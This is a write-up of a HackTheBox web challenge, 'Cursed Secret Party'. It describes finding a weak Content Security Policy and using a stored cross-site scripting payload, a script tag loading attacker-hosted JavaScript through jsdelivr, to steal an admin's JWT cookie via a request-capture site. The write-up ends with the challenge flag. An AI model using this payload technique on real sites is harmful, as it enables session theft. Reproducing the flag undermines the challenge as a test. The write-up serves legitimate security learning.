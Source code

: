 challenge link : https://app.hackthebox.com/challenges/Cursed%2520Secret%2520Party

![image](https://github.com/user-attachments/assets/c67b2a1a-5017-4c13-8b68-40409bd9fc1b)

Starting of the challenge we see a hallowen party register after putting the needed informations he says that 
our request will be reviewed put in mind that on every ctf when it says that we have a chance to use xss as attack 

![image](https://github.com/user-attachments/assets/4091c595-65bb-45b5-83a6-9ff697b5edf7)

Maybe for the reason to retrieve cookie values because on our challenge when we download the files of the challenge it says 

![image](https://github.com/user-attachments/assets/b4e6ffd2-5f95-4fb3-bb1e-146eae6e668f)

That our flag is on the token which  we're going to intercept through cookie .

Now we should search for the misconfiguration or a possiblity of an attack i've started intercepting the traffic with burp 


![image](https://github.com/user-attachments/assets/a427e407-0380-412e-8b68-b220b20b2e40)

within the response we can see it uses a different variety of csp after reviewing that with the csp eveluator 

site : https://csp-evaluator.withgoogle.com/

![image](https://github.com/user-attachments/assets/c656693f-c37b-454e-b3d6-207ea281926a)


and here we can see that we have a security problem on our security-src which appeared to be an open source 

![image](https://github.com/user-attachments/assets/4b144f98-165e-43d8-ac38-9dc5912f1c01)

as you can see that we can request throught github i've created a new file on github and tested the response 

![image](https://github.com/user-attachments/assets/f44352db-787f-45c4-893b-897e570f4f24)

and now 

![image](https://github.com/user-attachments/assets/48408d09-63b0-433c-a805-2b929e8b0c3f)

It works we got the response for the script so as we know that when get some sources we use 

<script src="your_source"></script>

and i have used some website to intercept the requests sent by the application 

site : https://webhook.site  or https://pipedream.com/requestbin
after adding the request in our halloween name 
payload : <script src="https://cdn.jsdelivr.net/gh/AhmedBennaser1/CTF/hackthebox/htb_ctf/cursed_secret_party/xss_cookie.js"></script>

we got a response 

![image](https://github.com/user-attachments/assets/29dac224-065b-4d17-90b5-ef8eff0f24a8)


and as we know that it is a jwt token we copy and paste on an  Online JWT Decoder
site : https://fusionauth.io/dev-tools/jwt-decoder 
and like that we got the flag 

![image](https://github.com/user-attachments/assets/0e218721-cf57-472f-8964-5965c61630a5)


Flag : HTB{d0n't_4ll0w_cdn_1n_c5p!!}
